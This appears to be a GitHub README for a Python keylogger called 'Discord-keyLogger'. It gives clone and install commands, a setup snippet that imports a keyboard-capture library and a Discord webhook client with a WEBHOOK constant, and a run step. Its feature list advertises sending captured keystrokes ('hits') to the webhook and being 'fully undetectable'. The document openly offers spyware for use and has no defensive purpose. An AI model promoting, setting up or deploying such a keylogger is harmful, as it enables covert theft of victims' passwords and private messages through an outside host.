 ### ☕ Usage
- #### 💻 Installing
    ```
    git clone https://github.com/Plasmonix/Discord-keyLogger
    cd Discord-keyLogger
    pip install -r requirements.txt
    ```
- #### 🛠 Setup
    ```py
    import keyboard,os
    from threading import Timer
    from datetime import datetime
    from discord_webhook import DiscordWebhook, DiscordEmbed
    
    WEBHOOK = "https://discord.com/api/webhooks/..."
    COOLDOWN = 60 #In seconds
    ```
- #### 💣 Execute
    ```
    run main.py
    ```
### 🏆 Features List
- Easy setup
- Send hit to webhook
- Fully undetectable

## 📚 Contributions
All suggestions are welcome.

## 📜 License
This project is licensed under [GNU General Public License](https://github.com/Plasmonix/Discord-keylogger/blob/master/LICENSE).

<p align="center">
  <img src="https://badges.frapsoft.com/os/v1/open-source.svg?v=103" alt="Open Source">
  <img src="https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat" alt="Contribution Welcome">
  <img src="https://img.shields.io/badge/License-GPLv3-blue.svg" alt="License Badge">
</p>